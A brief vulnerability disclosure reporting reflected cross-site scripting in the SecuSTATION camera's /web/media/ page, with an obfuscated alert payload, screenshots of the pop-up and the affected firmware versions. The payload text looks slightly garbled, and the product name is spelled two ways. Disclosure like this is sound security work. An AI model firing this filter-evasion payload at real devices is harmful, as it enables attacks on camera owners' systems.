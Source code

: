 # SecureSTATION Reflected XSS vulnerability exists

## Vulnerability details：

​	The path to access the vulnerable device is as follows：http://VulDevice/web/media/

![image-20241217100348501](https://raw.githubusercontent.com/kklzzcun/Camera/main/assets/1.png)

 payload：?<script/>eval(/ale/,source+/rt/,source+/(190)/. source)(/script>

![image-20241217100507713](https://raw.githubusercontent.com/kklzzcun/Camera/main/assets/2.png)

A pop-up window will appear after placing the package.

![image-20241217100543071](https://raw.githubusercontent.com/kklzzcun/Camera/main/assets/3.png)

SecuSTATION Camera V2.5.5.3116-S50-SMA-B20160811A and lower













































































